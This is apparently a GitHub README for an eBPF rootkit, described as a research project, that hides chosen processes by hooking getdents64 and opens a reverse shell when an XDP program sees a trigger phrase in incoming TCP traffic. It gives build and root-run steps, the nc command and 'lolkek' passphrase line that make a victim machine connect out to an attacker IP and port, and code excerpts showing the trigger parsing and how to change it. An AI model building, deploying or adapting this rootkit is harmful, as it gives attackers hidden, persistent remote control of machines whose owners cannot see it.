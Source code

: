 # eBPF-rootkit
This project was made for research and practice with eBPF

This repository contains an eBPF rootkit that combines 2 main functions:

Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Build
### Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

## Usage

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```


To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.123.200 4444
```

![alt text](assets/poc.gif)

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

**main.go:**
```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

...
```

and the number of bytes received from tcp payload is equal to the number of characters sent for the backdoor. Now this number is equal to 27
```bash
lolkek 192.168.123.200 4444 #27 characters
```

**bpf.c:**
```C
//GET TCP DATA
unsigned char *tcpdata = (unsigned char *)tcp + tcp_header_bytes;

if ((void *)(tcpdata + 27) > data_end) { // <---
    return XDP_PASS;
}

// Reserve space in the ring buffer
void *ringbuf_space = bpf_ringbuf_reserve(&xdprb, tcp_header_bytes, 0);
if (!ringbuf_space) {
    return XDP_PASS;  // If reservation fails, skip processing
}

// Copy the TCP header bytes into the ring buffer
// Using a loop to ensure compliance with eBPF verifier
for (int i = 0; i < 27; i++) { // <---
    unsigned char byte = *((unsigned char *)tcpdata + i);
    ((unsigned char *)ringbuf_space)[i] = byte;
}
```

**To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell. And the number of bytes to be received.**

After changing the passphrase, you need to rebuild the project:

`go generate`

`go build -o ebpf-rootkit`